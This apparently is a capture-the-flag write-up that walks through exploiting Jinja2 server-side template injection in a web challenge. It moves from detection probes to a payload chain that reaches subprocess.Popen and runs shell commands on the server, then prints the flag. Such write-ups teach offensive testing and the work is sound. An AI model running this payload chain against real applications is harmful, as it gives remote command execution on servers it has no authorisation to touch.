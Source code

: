 +++
title = 'Say Hello!'
date = '2024-09-05'
authors = {"Achintya J"}
+++

# Say Hello!

So, none of the common web exploitation techniques work here. There is nothing special in the HTTP requests, nothing in web directories or vhosts. At this point you should try out techniques like SSTI, XSS etc. Luckily for us, testing for `SSTI` gives results right away!

		test for SSTI using: {{}} --> gives error means, potential SSTI threat

useful link: https://portswigger.net/web-security/server-side-template-injection

Now that we know its SSTI, we want to understand what template engine is running this. This also we can test using prompts,

		template engine: Jinja2 (test using {{7*'7'}}, if it gives 7777777 then its Jinja2)

once we know the template engine, we can look for ways to exploit this specifically.

useful: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti

Going systematically,
once we have figured out that SSTI is possible in this, test out these things

1. `{{''.__class__}}` should return "str" or "string"
2. `{{''.__class__.mro()}}` should return "str" and "object". We therefore have access to the "object" class if we use something like `{{''.__class__.mro()[-1]}}`. This is amazing!

What we are looking for, is any way to get some function which we can use to read the flag which lies in the server. 

The main thing that stands out in stuff like this, is shell code execution. The thing therefore that we are looking for is a way to execute shell commands, just like using the "os" module in python. 

We can check all the subclasses available to us (not intentionally but since there is a SSTI vulnerability we can use that and see) using this

3. `{{''.__class__.mro()[-1].__subclasses__()}}`

This will return a lot of subclasses. We need to look for something called `<class 'subprocess.Popen'>`. This will allow us to use shell command and execute arbitrary code on the server! After running this command, locate this class and get its index. `For me, it was -12.`

4. `{{''.__class__.mro()[-1].__subclasses__()[-12]}}` gives the class subprocess.Popen. 

Now we can read the "flag.txt" file (this is something you can assume, that the flag's name is flag.txt) using the following command 

5. `{{''.__class__.mro()[1].__subclasses__()[-12]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}`. The additional parameters are as advocated by the link given above.

`flag: FLAG{Sh3n4n1g4ns!nject3d}`
